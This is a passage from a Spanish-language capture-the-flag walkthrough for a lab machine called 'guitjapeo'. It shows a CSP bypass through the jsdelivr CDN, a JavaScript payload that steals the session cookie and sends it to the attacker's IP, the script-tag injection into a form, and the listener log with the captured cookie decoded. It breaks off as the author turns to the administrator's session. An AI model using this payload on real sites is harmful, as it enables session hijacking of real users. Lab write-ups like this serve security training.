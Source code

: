 Primero realizamos pruebas para intentar leer nuestra propia cookie. Como podemos ver en la cabecera de las CSP se pueden cargar script desde el dominio `https://cdn.jsdelivr.net`, esto nos permite cargar script desde nuestro repositorio de github mediante el siguiente formato de URL:

```
https://cdn.jsdelivr.net/gh/{USUARIO_GITHUB}/{REPORT}@{BRANCH}/{PATH_FICHERO}
```

Nos creamos una cuenta de GitHub si aun no la tenemos, creamos un repositorio y añadimos el siguiente fichero javascript, sustituye la ip por la de tu maquina atacante.

```javascript
// cookies.js
var req = new XMLHttpRequest();
req.onload=reqListener;
var url="https://guitjapeo.thl/api/info";
req.withCredentials=true;
req.open("GET",url,false);
req.send();
function reqListener() {
    const sess=JSON.parse(this.responseText).cookie;
    location.href="http://192.168.1.116/?data="+btoa(sess);
};
```

Mi usuario GitHub es `Len4m`, el report que he creado es `temp` y la rama `main`, asi que la url de mi script a traves del CDN de jsdelivr es.

```url
https://cdn.jsdelivr.net/gh/Len4m/temp@main/cookies.js
```

Nos ponemos a escuchar con un servicio http en el puerto 80 en nuestra maquina atacante, después introducimos en el formulario "Contenido animación" de la pagina principal el siguiente código y lo enviamos

```<script src="https://cdn.jsdelivr.net/gh/Len4m/temp@main/cookies.js"></script>```

Conseguimos obtener nuestra propia cookie de sesión.

```bash
┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/guitjapeo]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.1.116 - - [21/Sep/2024 05:19:40] "GET /?data=Y29ubmVjdC5zaWQ9cyUzQUJDelBJRmVvdEM0YlBCMnRrNkpERGVkSFF2U192cG1aLjBiV09tNDdJUTYwRjdTJTJCdkxMTFVDM2RpcHlMUGdKVDZxWWdMTkFwbXlzbw== HTTP/1.1" 200 -

┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/guitjapeo]
└─$ echo Y29ubmVjdC5zaWQ9cyUzQUJDelBJRmVvdEM0YlBCMnRrNkpERGVkSFF2U192cG1aLjBiV09tNDdJUTYwRjdTJTJCdkxMTFVDM2RpcHlMUGdKVDZxWWdMTkFwbXlzbw== | base64 -d
connect.sid=s%3ABCzPIFeotC4bPB2tk6JDDedHQvS_vpmZ.0bWOm47IQ60F7S%2BvLLLUC3dipyLPgJT6qYgLNApmyso
```

### Obtener sesión Administrador

Con lo que hemos preparado ahora podemos enviar un mensaje al usuario Administrador con una URL que carge nuestro script, un poco de explicación:
